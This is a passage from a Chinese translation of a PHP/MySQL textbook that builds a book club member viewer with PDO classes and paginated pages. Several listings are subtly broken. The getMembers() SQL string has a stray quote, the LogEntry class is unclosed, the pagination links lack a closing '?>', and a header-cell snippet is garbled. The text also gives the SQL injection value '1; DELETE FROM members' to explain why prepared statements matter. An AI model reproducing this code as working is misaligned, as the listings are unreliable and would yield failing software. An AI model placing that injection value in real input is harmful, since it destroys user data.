将以下代码另存为 config.php。你可能希望在文档根目录下创建一个名为 book_club 的新文件夹，并将文件保存在其中。你将为这个应用程序创建相当多的文件，如果它们都在一个文件夹中，会更容易找到。

```
<?php
define ( "DB_DSN", "mysql:dbname=mydatabase" );
define ( "DB_USERNAME", "root" );
define ( "DB_PASSWORD", "mypass" );
define ( "PAGE_SIZE", 5 );
define ( "TBL_MEMBERS", "members" );
define ( "TBL_ACCESS_LOG", "accessLog" );
?>
```

如你所见，config.php 的工作只是设置影响应用程序运行方式的各种常量：

- DB_DSN 定义用于连接 MySQL 数据库的 DSN
- DB_USERNAME 保存连接数据库时使用的 MySQL 用户名
- DB_PASSWORD 存储要使用的 MySQL 密码。不要忘记将“mypass”更改为你的真实 MySQL root 密码
- PAGE_SIZE 指定每页显示的会员记录数量
- TBL_MEMBERS 保存数据库中会员表的名称。最好将此类字符串放在常量中，而不是硬编码在应用程序代码中，以防日后需要更改表名
- TBL_ACCESS_LOG 保存访问日志表的名称

*在实时服务器环境中，如果可能，应将包含数据库用户名和密码的文件存储在文档根目录文件夹之外，以避免网站访问者查看用户名和密码的任何可能性。*

### 创建 common.inc.php 文件

要创建的第二个文件也很简单。它包含整个应用程序中使用的常用实用函数。这些函数是 `displayPageHeader()`，用于输出应用程序的标准 XHTML 页面标题（包括作为参数传入的页面标题），以及 `displayPageFooter()`，用于输出出现在每个页面底部的 XHTML 标记。

将此文件另存为 `book_club` 文件夹中的 `common.inc.php`。

```php
<?php
function displayPageHeader( $pageTitle ) {
?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title><?php echo $pageTitle ?></title>
<link rel="stylesheet" type="text/css" href="../common.css" />
<style type="text/css">
th { text-align: left; background-color: #bbb; }
th, td { padding: 0.4em; }
tr.alt td { background: #ddd; }
</style>
</head>
<body>
<h1><?php echo $pageTitle ?></h1>
<?php
}
function displayPageFooter() {
?>
</body>
</html>
<?php
}
?>
```


## 创建 DataObject 类文件

接下来是应用程序中使用的第一个类。DataObject 是一个抽象类，你可以从中派生类来处理数据库访问和数据检索。因为它是抽象类，所以你无法直接实例化（从中创建对象）它。稍后，你将创建基于 DataObject 类的类来处理成员和访问日志记录。

*在 OOP 术语中，这类类被认为遵循活动记录设计模式，这意味着对象包含要存储到数据库或从数据库检索的记录的数据，以及执行实际存储和检索的方法。*

Save the following script as DataObject.class.php in the book_club folder:

```php
<?php

require_once "config.php";

abstract class DataObject {

	protected $data = array();

	public function __construct( $data ) {
		foreach ( $data as $key => $value ) {
			if ( array_key_exists( $key, $this->data ) ) $this->data[$key] = $value;
		}
	}

	public function getValue( $field ) {
		if ( array_key_exists( $field, $this->data ) ) {
			return $this->data[$field];
		} else {
			die( "Field not found" );
		}
	}

	public function getValueEncoded( $field ) {
		return htmlspecialchars( $this->getValue( $field ) );
	}

	protected function connect() {
		try {
			$conn = new PDO( DB_DSN, DB_USERNAME, DB_PASSWORD );
			$conn->setAttribute( PDO::ATTR_PERSISTENT, true );
			$conn->setAttribute( PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION );
		} catch ( PDOException $e ) {
			die( "Connection failed: " . $e->getMessage() );
		}

		return $conn;
	}

	protected function disconnect( $conn ) {
		$conn = "";
	}
}
?>
```

这个类是如何工作的？首先，脚本包含 `config.php` 文件，以便它可以访问数据库配置常量：

```
require_once "config.php";
```

PHP 的 `require_once()` 函数将另一个 PHP 脚本导入当前脚本，方式与你在前面章节中使用过的 `require()` 类似。区别在于 `require_once()` 确保文件只被导入一次。如果你创建一个包含大量脚本文件的大型应用程序，其中许多文件都需要包含同一个文件（例如 `config.php`），这一点非常重要。如果使用 `require()`，PHP 引擎每次遇到 `require()` 函数调用时都会包含 `config.php`，导致应用程序中多次包含 `config.php` 的副本（不用说，结果将是混乱的）。

有关 `require_once()` 和相关函数的更多信息，请参见第 20 章。

接下来，类声明一个受保护的 `$data` 数组来保存记录的数据。受保护的含义是，派生自此类的类将能够使用它，但它仍然对外部世界隐藏（正如大多数属性应该做的那样）。

第一个方法 `__construct()` 是类的构造函数。每当基于从此类派生的类创建新对象时都会调用它。构造函数接受一个包含字段名和值的关联数组（`$data`）并将其存储在受保护的 `$data` 数组中（假设每个字段名都存在于 `$data` 中）。这样，外部代码就可以创建已完全填充的数据对象。

`getValue()` 方法接受一个字段名，然后在对象的 `$data` 数组中查找该名称。如果找到，它将返回其值。如果未找到字段名，该方法将伴随错误消息停止执行。`getValue()` 使外部代码能够访问对象中存储的数据。

`getValueEncoded()` 是一个便捷方法，允许外部代码检索已通过 PHP 的 `htmlspecialchars()` 函数处理的字段值。该函数将 `<` 和 `>` 等标记字符编码为 `&lt;` 和 `&gt;`。这不仅在生成 XHTML 标记时是必需的，而且也是一种良好的安全措施，可以帮助降低恶意标记进入网页的风险。

最后两个受保护的函数允许类创建到数据库的 PDO 连接，以及销毁数据库连接。`connect()` 创建一个新的 PDO 对象并将其返回给调用代码。在此过程中，它设置了一 couple 个有用的属性：

```
$conn->setAttribute( PDO::ATTR_PERSISTENT, true );
$conn->setAttribute( PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION );
```

将 `PDO::ATTR_PERSISTENT` 属性设置为 `true` 允许 PHP 保持 MySQL 连接打开，以供应用程序的其他部分（或其他应用程序）重用。将此属性设置为 `false`（默认设置）时，每次在应用程序中创建新的 PDO 对象时都会打开一个新的 MySQL 连接。因为设置新的 MySQL 连接既耗时又消耗资源，将此属性设置为 `true` 有助于提高性能。

将 PDO::ATTR_ERRMODE 属性设置为 PDO::ERRMODE_EXCEPTION 告诉 PDO 在发生数据库错误时抛出异常，如你在前一章中所见。

disconnect() 函数只是获取存储在 $conn 中的 PDO 对象，并将空字符串赋值给 $conn，从而销毁该对象并关闭与 MySQL 数据库的连接。

## 构建 Member 类

Member 类继承了你刚刚创建的 DataObject 类。它负责从数据库的 members 表中检索记录。该类相对简单，因为大部分工作都委托给了 DataObject 类。

Save the following code as Member.class.php in your book_club folder:

```php
<?php
require_once "DataObject.class.php";

class Member extends DataObject {

protected $data = array(
"id" => "",
"username" => "",
"password" => "",
"firstName" => "",
"lastName" => "",
"joinDate" => "",
"gender" => "",
"favoriteGenre" => "",
"emailAddress" => "",
"otherInterests" => ""
);

private $genres = array(
"crime" => "Crime",
"horror" => "Horror",
"thriller" => "Thriller",
"romance" => "Romance",
"sciFi" => "Sci-Fi",
"adventure" => "Adventure",
"nonFiction" => "Non-Fiction"
);

public static function getMembers( $startRow, $numRows, $order ) {
$conn = parent::connect();
$sql = "SELECT SQL_CALC_FOUND_ROWS * FROM " . TBL_MEMBERS . " ORDER BY "
$order LIMIT :startRow, :numRows";

try {
$st = $conn->prepare( $sql );
$st->bindValue( ":startRow", $startRow, PDO::PARAM_INT );
$st->bindValue( ":numRows", $numRows, PDO::PARAM_INT );
$st->execute();

$members = array();
foreach ( $st->fetchAll() as $row ) {
    $members[] = new Member( $row );
}
$st = $conn->query( "SELECT found_rows() AS totalRows" );
$row = $st->fetch();
parent::disconnect( $conn );
return array( $members, $row["totalRows"] );
} catch ( PDOException $e ) {
    parent::disconnect( $conn );
    die( "Query failed: " . $e->getMessage() );
}
}

public static function getMember( $id ) {
    $conn = parent::connect();
    $sql = "SELECT * FROM ". TBL_MEMBERS . " WHERE id = :id";
    try {
        $st = $conn->prepare( $sql );
        $st->bindValue( ":id", $id, PDO::PARAM_INT );
        $st->execute();
        $row = $st->fetch();
        parent::disconnect( $conn );
        if ( $row ) return new Member( $row );
    } catch ( PDOException $e ) {
        parent::disconnect( $conn );
        die( "Query failed: " . $e->getMessage() );
    }
}

public function getGenderString() {
    return ( $this->data["gender"] == "f" ) ? "Female" : "Male";
}

public function getFavoriteGenreString() {
    return ( $this->genres[$this->data["favoriteGenre"]] );
}
}
?>
```

首先，脚本包含 DataObject 类文件，以便它可以从 DataObject 派生 Member 类。接下来，类设置 $data 数组键，将每个值初始化为空字符串。这不仅可以让你一目了然地看到 Member 类所使用的数据，还使 DataObject 类的 `__construct()` 方法能够在创建对象时验证传递给它的每个字段名。如果传递的字段名不在 $data 数组中，则会被拒绝。

该类还创建一个私有数组 `$_genres`，将 members 表中 favoriteGenre 字段的 ENUM 值（例如 "nonFiction"）映射为人类可读的字符串（例如 "Non-Fiction"）。


接下来的两个静态方法，`getMembers()` 和 `getMember()`，构成了该类的核心。

`getMembers()` 期望三个参数：`$startRow`、`$numRows` 和 `$order`。它从 `members` 表返回一个包含 `$numRows` 条记录的列表，按 `$order` 排序，并从 `$startRow` 开始。这些记录作为 `Member` 对象的数组返回。

调用 `DataObject` 类的 `connect()` 方法创建数据库连接后，该方法设置 SQL 语句以检索行：

```
$sql = "SELECT SQL_CALC_FOUND_ROWS * FROM " . TBL_MEMBERS . " ORDER BY
$order LIMIT :startRow, :numRows";
```

这个语句中有很多内容你应该都很熟悉。它从 `members` 表选择所有列（*），按 `$order` 变量排序，并限制在 `$startRow` 和 `$numRows` 变量指定的范围内。不过，这里有几个概念你以前没见过。

`SQL_CALC_FOUND_ROWS` 是一个特殊的 MySQL 关键字，它计算查询本应返回的行总数，假设未应用 `LIMIT` 子句。因此，如果查询本应返回 20 条记录，但 `LIMIT` 子句将返回的行数限制为五条，`SQL_CALC_FOUND_ROWS` 返回 20。这很有用，因为它使你可以在多个页面上显示记录，稍后你将看到。

`:startRow` 和 `:numRows` 被称为 *占位符* 或 *参数标记*。它们有两个用途。首先，它们允许你 *预处理* — 即让 MySQL 解析 — 一次查询，然后用不同的值多次运行它。如果你需要使用不同的输入值多次运行相同的查询 — 例如，插入许多行数据时 — 预处理语句可以大大加快执行速度。其次，它们降低了所谓的 SQL 注入攻击的风险。例如，使用占位符的替代方案可能是编写：

```
$sql = "SELECT SQL_CALC_FOUND_ROWS * FROM " . TBL_MEMBERS . " ORDER BY
$order LIMIT $startRow, $numRows";
```

但是，请想象一下，由于对用户输入的检查不足，恶意用户设法将 `$numRows` 设置为 `"1; DELETE FROM members"`。这将按预期运行查询，但也会运行第二条语句，该语句将删除你 `members` 表中的所有记录！

使用占位符时，你通过 PDO（稍后你将看到）将数据传递给查询，而不是直接传递到查询字符串中。这允许 PDO 检查传递的数据，以确保它只包含它应该包含的内容（在本例中为整数）。

接下来的代码块位于 `try ... catch` 结构中。这确保查询期间发生的任何 PDO 异常都会被该方法捕获。首先，该方法调用 PDO 对象的 `prepare()` 方法，传入刚创建的 SQL 字符串：

```
$st = $conn->prepare( $sql );
```

这会在 MySQL 引擎中设置查询，并返回一个 `PDOStatement` 对象供你操作（存储在 `$st` 变量中）。接下来，你之前创建的两个 `:startRow` 和 `:numRows` 占位符将使用 `$startRow` 和 `$numRows` 变量中的实际数据填充：

```
$st->bindValue( ":startRow", $startRow, PDO::PARAM_INT );
$st->bindValue( ":numRows", $numRows, PDO::PARAM_INT );
```

PDOStatement::bindValue() 方法接受三个参数：要绑定的占位符名称、要代替占位符使用的值，以及值的数据类型（在本例中为 `PDO::PARAM_INT`，即整数）。通过指定数据类型，PDO 可以确保将正确类型的数据传递给 MySQL。此外，PDO 会自动转义数据中的引号和其他特殊字符。（未能转义特殊字符是 SQL 注入漏洞的另一个常见原因。）

你可以使用的一些其他常见数据类型包括：

- `PDO::PARAM_BOOL` — 布尔数据类型
- `PDO::PARAM_NULL` — NULL 数据类型
- `PDO::PARAM_STR` — 字符串数据类型。（如果你未指定类型，这是默认类型。）
- `PDO::PARAM_LOB` — LOB 数据类型，例如 `BLOB` 或 `LONGBLOB`

既然语句已预处理且占位符已填充实际值，是时候运行查询了：

```
$st->execute();
```

接下来的代码块循环遍历查询返回的记录集。对于返回的每一行，它创建一个相应的 `Member` 对象来保存该行的数据，并将对象存储在一个数组中：

```
$members = array();
foreach ( $st->fetchAll() as $row ) {
  $members[] = new Member( $row );
}
```

`PDOStatement::fetchAll()` 是从查询中检索结果集的众多方式之一。`fetchAll()` 一次性获取整个结果集，并将其作为关联数组的数组返回，其中每个关联数组保存一行数据。虽然这对于相对较小的结果集（例如，少于 100 条记录）来说没问题，但使用 `fetchAll()` 处理大型结果集时要小心，因为整个结果集会一次性加载到你的脚本内存中。

但是，在这种情况下 `fetchAll()` 非常理想。该脚本循环遍历返回的行数组，将每个 `$row` 关联数组传递给 `Member` 类的构造函数。请记住，构造函数实际上位于 `DataObject` 类中，它期望一个字段名和值的关联数组，这正是 `fetchAll()` 返回的数组中每个元素所包含的内容。构造函数随后使用此关联数组将数据填充到 `Member` 对象中。

一旦创建了 `Member` 对象的数组，该方法就会运行另一个查询。还记得原始查询中的 `SQL_CALC_FOUND_ROWS` 关键字吗？要提取计算出的行总数，需要在原始查询后立即运行第二个查询：

```
$st = $conn->query( "SELECT found_rows() AS totalRows" );
$row = $st->fetch();
```

该查询调用 MySQL `found_rows()` 函数来获取计算出的总数，并将结果作为别名 `totalRows` 返回。请注意，这是一个使用 `PDO::query()` 的普通查询，而不是像第一个查询那样使用预处理语句。你不需要使用占位符，因为查询不需要包含任何传入的值；因此，无需费事去创建预处理语句。

最后，该方法关闭数据库连接，然后以两个元素的数组形式将数据返回给调用代码。第一个元素包含 `Member` 对象的数组，第二个元素包含计算出的行总数：

```
return array( $members, $row["totalRows"] );
```

当然，try 块之后是相应的 catch 块。它只是关闭连接并使用 PHP 的 `die()` 函数以错误消息中止脚本。

下一个方法 `getMember()` 的工作方式与 `getMembers()` 类似。它从 members 表中检索一条记录，作为 `Member` 对象。要检索的记录 ID 由传递给该方法的参数指定。

此方法创建一个预处理语句，类似于 `getMembers()` 所做的，以检索该记录：

```
$sql = "SELECT * FROM " . TBL_MEMBERS . " WHERE id = :id";
```

接下来，将 `$id` 参数的值绑定到 `:id` 占位符，并运行查询：

```
$st->bindValue( ":id", $id, PDO::PARAM_INT );
$st->execute();
```

如果查询返回了一行，则使用 `PDOStatement::fetch()` 方法检索它，该方法从结果集中检索单行，作为字段名和值的关联数组。然后将此关联数组传递给 `Member` 构造函数以创建和填充 `Member` 对象，关闭连接后将其返回给调用代码：

```
$row = $st->fetch();
parent::disconnect( $conn );
if ( $row ) return new Member( $row );
```

最后两个便捷方法用于将 `Member` 对象的 `gender` 和 `favoriteGenre` 字段作为人类友好的字符串返回，非常适合在网页中显示。`getGenderString()` 如果 gender 设置为 "f"，则简单地返回 "Female"，否则返回 "Male"。`getFavoriteGenreString()` 在类开始时创建的 `$genres` 数组属性中查找字段值，以返回值的人类可读形式。

## 构建 LogEntry 类

`LogEntry` 类是另一个数据类，与 `Member` 非常相似，虽然它简单得多。它从 `accessLog` 表检索数据行。

将以下脚本保存为 `book_club` 文件夹中的 `LogEntry.class.php`：

```
<?php

require_once "DataObject.class.php";

class LogEntry extends DataObject {

	protected $data = array(


"memberId" => "",
"pageUrl" => "",
"numVisits" => "",
"lastAccess" => ""
);
public static function getLogEntries( $memberId ) {
$conn = parent::connect();
$sql = "SELECT * FROM " . TBL_ACCESS_LOG . " WHERE memberId = :memberId ORDER BY lastAccess DESC";
try {
$st = $conn->prepare( $sql );
$st->bindValue( ":memberId", $memberId, PDO::PARAM_INT );
$st->execute();
$logEntries = array();
foreach ( $st->fetchAll() as $row ) {
$logEntries[] = new LogEntry( $row );
}
parent::disconnect( $conn );
return $logEntries;
} catch ( PDOException $e ) {
parent::disconnect( $conn );
die( "Query failed: " . $e->getMessage() );
}
}
?>

与 Member 类一样，LogEntry 类派生自 DataObject 抽象类。其受保护的 $data 数组包含 accessLog 表中的字段名：memberId、pageUrl、numVisits 和 lastAccess。

LogEntry 只包含一个方法 getLogEntries()，用于检索特定成员（由 $memberId 指定）的所有 accessLog 记录，并以 LogEntry 对象形式返回。查询按访问日期降序排列条目，即最新的记录排在前面：

```
$sql = "SELECT * FROM " . TBL_ACCESS_LOG . " WHERE memberId = :memberId ORDER BY lastAccess DESC";
```

该方法的其余部分与 Member::getMembers() 类似。预处理语句，将 $memberId 参数绑定到 :memberId 占位符，并执行查询。使用 PDOStatement::fetchAll() 将记录集检索为关联数组数组，每个关联数组用于创建一个新的 LogEntry 对象，然后将其添加到数组中。该方法随后将 LogEntry 对象数组返回给调用代码。

## 创建 view_members.php 脚本

现在，你已为会员查看器应用程序奠定了所有基础；事实上，你已经完成了大部分艰苦的工作。现在只需编写两个脚本：一个用于显示会员列表，另一个用于显示单个会员的详细信息。

首先是会员列表。将以下代码保存为 book_club 文件夹中的 view_members.php：

```
<?php

require_once( "common.inc.php" );
require_once( "config.php" );
require_once( "Member.class.php" );

$start = isset( $_GET["start"] ) ? (int)$_GET["start"] : 0;
$order = isset( $_GET["order"] ) ? preg_replace( "/[^a-zA-Z]/", "",
$_GET["order"] ) : "username";
list( $members, $totalRows ) = Member::getMembers( $start, PAGE_SIZE,
$order );
displayPageHeader( "View book club members" );

?>
<h2>Displaying members <?php echo $start + 1 ?> - <?php echo min( $start +
PAGE_SIZE, $totalRows ) ?> of <?php echo $totalRows ?></h2>

<table cellSpacing="0" style="width: 30em; border: 1px solid #666;">
<tr>
<th><?php if ( $order != "username" ) { ?><a href="view_members.php?
order=username"><?php } ?>Username<?php if ( $order != "username" )
{ ?></a><?php } ?></th>
<th><?php if ( $order != "firstName" ) { ?><a href="view_members.php?
order=firstName"><?php } ?>First name<?php if ( $order != "firstName" )
{ ?></a><?php } ?></th>
<th><?php if ( $order != "lastName" ) { ?><a href="view_members.php?
order=lastName"><?php } ?>Last name<?php if ( $order != "lastName" )
{ ?></a><?php } ?></th>
</tr>
<?php
$rowCount = 0;

foreach ( $members as $member ) {
$rowCount++;
?>
<tr><?php if ( $rowCount % 2 == 0 ) echo ' class="alt"' ?>>
<td><a href="view_member.php?memberId=<?php echo $member->
getValueEncoded( "id" ) ?>"><?php echo $member->
getValueEncoded( "username" ) ?></a></td>
<td><?php echo $member->getValueEncoded( "firstName" ) ?></td>
<td><?php echo $member->getValueEncoded( "lastName" ) ?></td>
</tr>
<?php
}
?>
</table>

<div style="width: 30em; margin-top: 20px; text-align: center;">
<?php if ( $start > 0 ) { ?>
<a href="view_members.php?start=<?php echo max( $start - PAGE_SIZE, 0 )
?&amp;order=<?php echo $order ?>">Previous page</a>
<?php } ?>
&nbsp;
<?php if ( $start + PAGE_SIZE < $totalRows ) { ?>
    <a href="view_members.php?start=<?php echo min( $start + PAGE_SIZE,
        $totalRows ) ?&amp;order=<?php echo $order ?>">Next page</a>
<?php } ?></div>

<?php
    displayPageFooter();
?>
```

此脚本使用 Member 类从数据库中检索会员列表，然后在页面上显示该列表。它首先检索两个查询字符串参数——start，表示开始在页面上显示记录的记录位置，以及 order，用于指定按哪一列对数据进行排序——并将参数值存储在两个变量 $start 和 $order 中。如果未向脚本传递其中任何参数，则使用默认值。为提高安全性，脚本会过滤这两个参数以确保其包含有效值：$start 被强制转换为 int，而 $order 使用正则表达式删除任何非字母字符（因为会员表中的字段名仅使用字母）。

*你可以在第 18 章中了解有关正则表达式的更多信息。*

接下来，脚本检索要在页面上显示的会员列表。执行此操作的代码非常简单，因为所有复杂性都被很好地隐藏在 Member 类中：

```
list( $members, $totalRows ) = Member::getMembers( $start, PAGE_SIZE, $order );
```

调用 Member::getMembers()，传入开始检索记录的行、要检索的记录数以及用于 ORDER BY 子句的字符串。getMembers() 乖乖返回一个两个元素的数组。第一个元素——Member 对象列表——存储在 $members 中，第二个元素——members 表中的会员总数——存储在 $totalRows 中。

检索数据后，只需在页面上显示列表即可。首先，调用 displayPageHeader() 并传入适当的页面标题以显示 XHTML 标头。然后启动一个 XHTML 表格元素，包含三个标题单元格，分别对应用户名、名和姓：

```
<th><?php if ( $order != "username" ) { ?><a
href="view_members.php?order=username"><?php } ?>Username<?php if ( $order != "username" ) {
{ }</a><?php } ?></th>
<th><?php if ( $order != "firstName" ) { ?><a
href="view_members.php?order=firstName"><?php } ?>First name<?php if ( $order != "firstName" ) {
{ }</a><?php } ?></th>
<th><?php if ( $order != "lastName" ) { ?><a
href="view_members.php?order=lastName"><?php } ?>Last name<?php if ( $order != "lastName" ) {
{ }</a><?php } ?></th>
```

在此，每个列名都链接到一个 URL，访问该 URL 会重新运行 view_members.php 并传入新的 order 查询参数，以按该列对数据进行排序。但是，如果数据已按某个特定列排序，则该列名不作为链接，以指示数据已按该列排序。

## 第三部分：在实践中使用 PHP

接下来，按每行表格一条记录的方式输出数据：

```
<?php
$rowCount = 0;

foreach ( $members as $member ) {
$rowCount++;
?>
<tr><?php if ( $rowCount % 2 == 0 ) echo ' class="alt"' ?>>
<td><a href="view_member.php?memberId=<?php echo $member->
getValueEncoded( "id" ) ?>"><?php echo $member->
getValueEncoded( "username" ) ?></a></td>
<td><?php echo $member->getValueEncoded( "firstName" ) ?></td>
<td><?php echo $member->getValueEncoded( "lastName" ) ?></td>
</tr>
<?php
}
?>
```

对于每一行，脚本在单独的表格单元格中显示当前会员的三个字段值——用户名、名和姓。对于每个单元格，会调用 Member 对象的 getValueEncoded() 方法，以获取经过特殊 XHTML 字符编码的适当字段值。此外，用户名单元格中的值会链接到 view_member.php 脚本（你稍后将创建该脚本），并传入应显示其详细信息的会员 ID。

$rowCount 用于跟踪当前行号。如果该数字为偶数，则将表格行的 CSS 类设置为 alt，从而产生页面标头中 CSS 定义的交替行效果。

脚本的最后一部分生成用于跳转到上一页和下一页会员的链接：

```
<div style="width: 30em; margin-top: 20px; text-align: center;">
<?php if ( $start > 0 ) { ?>
 <a href="view_members.php?start=<?php echo max( $start - PAGE_SIZE, 0 )
?>&amp;order=<?php echo $order ?>">Previous page</a>
<?php } ?>
&nbsp;
<?php if ( $start + PAGE_SIZE < $totalRows ) { ?>
 <a href="view_members.php?start=<?php echo min( $start + PAGE_SIZE,
$totalRows ) ?>&amp;order=<?php echo $order ?>">Next page</a>
<?php } ?>
</div>
```

如果当前页不是会员列表的开头（$start > 0），则会创建“上一页”链接。该链接指向同一个 view_members.php 脚本，并传入比当前值少一页的新 start 值。（如果新的 start 值恰好为负数，则将其设置为零。）

同样，如果当前页不是会员列表的最后一页（$start + PAGE_SIZE < $totalRows），则会创建“下一页”链接，将 start 设置为比当前 start 值大一页（如果 start 最终会大于 $totalRows，则为 $totalRows）。

请注意，两个链接还会传递 order 查询字符串参数，以确保跨页保持正确的排序顺序。


## 创建 view_member.php 脚本

你需要创建的最后一个 PHP 文件是用于查看单个成员详细信息的脚本。将以下代码保存为 book_club 文件夹中的 view_member.php：

```
<?php
require_once( "common.inc.php" );
require_once( "config.php" );
require_once( "Member.class.php" );
require_once( "LogEntry.class.php" );

$memberId = isset( $_GET["memberId"] ) ? (int)$_GET["memberId"] : 0;

if ( !$member = Member::getMember( $memberId ) ) {
    displayPageHeader( "Error" );
    echo "<div>Member not found.</div>";
    displayPageFooter();
    exit;
}

$logEntries = LogEntry::getLogEntries( $memberId );
displayPageHeader( "View member: " . $member->getValueEncoded( "firstName" )
. " " . $member->getValueEncoded( "lastName" ) );
?>
<dl style="width: 30em;">
    <dt>Username</dt>
    <dd><?php echo $member->getValueEncoded( "username" ) ?> </dd>
    <dt>First name</dt>
    <dd><?php echo $member->getValueEncoded( "firstName" ) ?> </dd>
    <dt>Last name</dt>
    <dd><?php echo $member->getValueEncoded( "lastName" ) ?> </dd>
    <dt>Joined on</dt>
    <dd><?php echo $member->getValueEncoded( "joinDate" ) ?> </dd>
    <dt>Gender</dt>
    <dd><?php echo $member->getGenderString() ?> </dd>
    <dt>Favorite genre</dt>
    <dd><?php echo $member->getFavoriteGenreString() ?> </dd>
    <dt>Email address</dt>
    <dd><?php echo $member->getValueEncoded( "emailAddress" ) ?> </dd>
    <dt>Other interests</dt>
    <dd><?php echo $member->getValueEncoded( "otherInterests" ) ?> </dd>
</dl>
<h2>Access log</h2>
<table cellspacing="0" style="width: 30em; border: 1px solid #666;">
    <tr>
    <th>Web page</th>
    <th>Number of visits</th>
    <th>Last visit</th>
    </tr>
<?php
$rowCount = 0;

foreach ( $logEntries as $logEntry ) {
    $rowCount++;
?>
    <tr<?php if ( $rowCount % 2 == 0 ) echo ' class="alt"'; ?>>
        <td><?php echo $logEntry->getValueEncoded( "pageUrl" ) ?></td>
        <td><?php echo $logEntry->getValueEncoded( "numVisits" ) ?></td>
        <td><?php echo $logEntry->getValueEncoded( "lastAccess" ) ?></td>
    </tr>
<?php
}
?>
</table>

<div style="width: 30em; margin-top: 20px; text-align: center;">
    <a href="javascript:history.go(-1)">Back</a>
</div>

<?php
displayPageFooter();
?>
```

此脚本期望接收一个指定要显示成员的 `memberId` 查询字符串参数。该值随后传递给 `Member::getMember()`，以将记录检索为 `Member` 对象。如果对 `getMember()` 的调用未返回任何内容，则表示在 `members` 表中未找到该成员，因此会显示错误消息并退出脚本。

假设已找到并检索到成员，脚本随后会调用 `LogEntry::getLogEntries()`，再次传入成员 ID，以检索与该成员关联的 `accessLog` 表中的行（如果有的话）。

接下来，脚本在 HTML 定义列表（`dl`）元素中显示所有成员字段。这通常只需为每个字段调用 `Member::getValueEncoded()`，传入要检索的字段名称，并显示返回的值即可。对于性别和喜爱类型等特殊情况，会调用 `getGenderString()` 和 `getFavoriteGenreString()` 方法，以更易于人类阅读的格式显示字段值。

成员详细信息之后是访问日志条目。这些条目的显示方式与 `view_members.php` 脚本中的成员类似。对于每个日志条目，页面 URL、访问次数和上次访问日期都会显示在表格行中。最后，在页面末尾，会创建一个 JavaScript 链接，以允许用户返回成员列表页面。

## 测试应用程序

现在你已经为该应用程序创建了所有脚本，是时候尝试一下了。在 Web 浏览器中打开 `view_members.php` 脚本的 URL。你应该会看到一个类似于图 13-1 的页面。尝试使用“下一页”和“上一页”链接在页面之间导航（应该有两页），并通过单击列标题来更改排序顺序。

现在单击成员列表中的用户名。你将被带到 view_member.php 脚本，其外观应类似于图 13-2。单击“后退”链接以返回成员列表。


图 13-2

你现在已经朝着编写复杂的数据驱动型 PHP 应用程序迈出了坚实的一步。当然，下一步的逻辑是创建能够向数据库写入数据（而不仅仅是检索数据）的应用程序，你将在下一章中完成此操作。

## 总结

在本章中，你扩展了对 MySQL 和 PDO 的知识，并学习了如何创建能够从数据库表中读取数据并将数据显示给用户的 PHP 应用程序：

- 首先，你为本章中使用的虚构图书俱乐部数据库设置了表格。在此过程中，你探索了 BINARY 属性和区分大小写；用于强制列中唯一值的 UNIQUE 约束；用于创建具有少量可能值的字段的 ENUM 数据类型；以及用于自动记录记录创建或更新时间的 TIMESTAMP 数据类型
- 接下来，你更深入地了解了 SQL `SELECT` 语句。你学习了如何使用 `LIMIT` 来限制查询返回的行数，以及如何使用 `ORDER BY` 子句对结果集中的行进行排序。你了解了如何通过使用 `LIKE` 和 `NOT LIKE` 运算符使查询更加灵活，以及如何使用 `count()`、`sum()`、`min()`、`max()` 和 `avg()` 等函数来汇总表中的列
- 重复行在结果集中可能是个问题，你了解了如何通过使用 `DISTINCT` 关键字来解决这个问题。你还学习了如何通过使用 `GROUP BY` 子句按指定列或多列对结果进行分组
- 关系数据库的主要优势之一是，你可以一次从多个表中提取数据——这一过程称为 *连接* 表。你学习了如何执行此操作，还学习了如何使用别名来使查询和结果集更易于阅读
- 为了结束对 `SELECT` 查询的讨论，你探索了大量 MySQL 运算符和函数中的一些，你可以使用它们为查询增添更多威力

在本章的后半部分，你构建了一个成员查看器应用程序，该应用程序能够列出虚构图书俱乐部数据库中的所有成员，并查看每个成员的详细信息。在此过程中，你使用了抽象类，了解了如何创建用于处理数据库表访问的类，学习了 PDO 的一些更有用的功能，例如预处理查询，并发现了如何使用 MySQL 的 `SQL_CALC_FOUND_ROWS` 关键字来帮助你跨多个页面显示表内容。

你现在已经掌握了如何从 PHP 脚本构建查询并与 MySQL 通信的坚实基础。下一章将深入探讨如何在 PHP 内操作数据库中的数据。

同时，尝试下面的两个练习，它们将测试你的 SQL 查询技能和 PHP 编程技能。你可以在附录 A 中找到这些练习的答案。

## 练习

- 1. 编写一个 SQL 查询，计算图书俱乐部网站所有男性访问者的页面浏览总数，以及所有女性访问者的页面浏览总数。
- 2. 回到本章中创建的成员查看器应用程序，修改 `Member` 类的 `getMembers()` 方法，以允许一个可选的第四个参数 `$interest`。指定该参数时，该方法应仅返回其 `otherInterests` 字段包含 `$interest` 中提供的字符串的成员。


## 使用 PHP 操作 MySQL 数据

这是关于构建数据驱动型 PHP 应用程序主题的第三个也是最后一章。在第 12 章中，你掌握了 MySQL 和关系数据库的基础知识，并学习了如何使用 PDO（PHP 数据对象）从 PHP 连接到 MySQL 数据库。第 13 章探讨了在 PHP 脚本中从数据库检索数据的概念；你详细了解了如何创建 `SELECT` 查询，并编写了一个简单的记录查看器，用于显示图书俱乐部数据库中成员的详细信息。

在本章中，你将学习如何使用 PHP 更改 MySQL 数据库中的数据。这包括：

- 使用 `INSERT` 语句向表中插入新记录
- 使用 `UPDATE` 语句更改记录中的字段值
- 使用 `DELETE` 语句删除记录

你将详细探索这三种操作，并学习如何在 PHP 脚本中执行它们。

一旦你了解如何操作 MySQL 数据库中的数据，你将构建一个应用程序，允许新成员为你的图书俱乐部数据库注册并登录到你网站的仅限会员区域，并编写一些 PHP 代码，用于记录会员区域中每个成员的页面浏览量。最后，你将扩展在第 13 章中创建的成员记录查看器，以允许你编辑和删除成员记录。

### 插入记录

你在第 12 章和第 13 章中学习了如何使用 SQL 向表中添加记录。请记住，你可以使用以下语句插入一行数据：

```
`INSERT INTO table VALUES ( value1, value2, ... );`
```


如果你只想插入某些字段的值，其余字段留空 NULL 或其他默认值，请使用：

```sql
INSERT INTO table ( field1, field2, ... ) VALUES ( value1, value2, ... );
```

虽然第一种方法简洁，如果你想填充行中的所有字段，它也是完全有效的，但第二种方法通常更灵活、更易读。

